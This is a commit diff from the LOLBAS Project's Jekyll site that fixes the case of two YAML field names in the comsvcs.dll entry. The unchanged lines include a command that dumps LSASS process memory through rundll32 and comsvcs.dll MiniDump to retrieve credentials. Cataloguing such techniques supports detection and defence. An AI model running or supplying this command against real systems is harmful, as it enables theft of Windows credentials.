

Before and after one commit to LOLBAS-Project/LOLBAS-Project.github.io, a Jekyll site: the page built from _lolbas/Libraries/Comsvcs.md, in a window 1280 px wide. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Adjusted case sensitive type in yml file for Comsvcs

```diff
--- a/_lolbas/Libraries/Comsvcs.md
+++ b/_lolbas/Libraries/Comsvcs.md
@@ -6,11 +6,11 @@ Created: '2019-08-30'
 Commands:
   - Command: rundll32 C:\windows\system32\comsvcs.dll MiniDump "[LSASS_PID] dump.bin full"
     Description: Calls the MiniDump exported function of comsvcs.dll, which in turns calls MiniDumpWriteDump.
-    UseCase: Dump Lsass.exe process memory to retrieve credentials.
+    Usecase: Dump Lsass.exe process memory to retrieve credentials.
     Category: Dump
     Privileges: SYSTEM
     MitreID: T1003
-    MItreLink: https://attack.mitre.org/wiki/Technique/T1003
+    MitreLink: https://attack.mitre.org/wiki/Technique/T1003
     OperatingSystem: Windows
 Full_Path:
   - Path: c:\windows\system32\comsvcs.dll
```
